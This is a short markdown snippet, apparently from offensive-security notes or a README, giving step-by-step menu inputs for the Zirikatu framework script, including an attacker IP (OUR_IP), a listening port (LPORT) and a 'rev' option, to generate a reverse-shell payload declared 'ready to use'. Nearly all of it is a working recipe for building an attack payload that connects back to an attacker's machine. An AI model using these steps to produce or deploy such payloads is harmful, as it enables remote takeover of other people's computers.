 - - -
#### Zirikatu Framework :  🏹️🏹️🏹️ 

- [ ] Download and move to zirikatu's Directory : 
```sh
./zirikatu.sh 
	>> 7 							( Or you can choose what you want ) 
	>> 45 
	>> OUR_IP 
	>> LPORT 
	>> y 
	>> n 
	>> rev                          ( And we are done ) 
```

![Imgur](https://i.imgur.com/YoXSuDO.png)

 - [ ] **Now it's ready to use !!**

- - -
